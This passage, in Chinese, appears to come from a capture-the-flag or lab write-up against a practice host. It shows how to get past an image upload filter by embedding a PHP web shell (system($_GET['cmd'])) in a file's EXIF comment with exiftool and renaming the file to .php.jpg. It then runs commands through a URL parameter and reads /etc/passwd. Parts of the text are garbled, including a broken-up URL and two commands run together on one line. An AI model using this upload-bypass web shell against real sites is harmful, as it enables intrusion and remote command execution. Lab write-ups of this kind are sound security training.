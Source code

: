 在尝试调用“cmd”后，我意识到它仍然不起作用，因为它被处理为一个. jpeg 文件。

在寻找用. php 脚本绕过图片上传的方法后，我发现了这个链接:[https://xa Pax . git books . io/security/content/bypass _ image _ upload . html](https://xapax.gitbooks.io/security/content/bypass_image_upload.html)

我可以通过更改其 EXIF 数据，并使用. php.jpg 扩展名对其进行重命名来绕过文件上传过滤:

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' php.jpgmv php.jpg rce.php.jpg
```

上传文件:

![](img/44f3518e9b6c11791b3bbaac5fb34798.png)

上传成功，但图像不是由 photos.php 渲染的。

![](img/0caa4309d356b4ea730be5f69ce98635.png)

然后，我尝试执行命令:

```
10.10.10.146/uploads/10_10_14_72.php.jpg?cmd=id
```

![](img/b38eec288da564f1c1d6f8972b898579.png)

我得到了结果。然后我读取/etc/passwd:
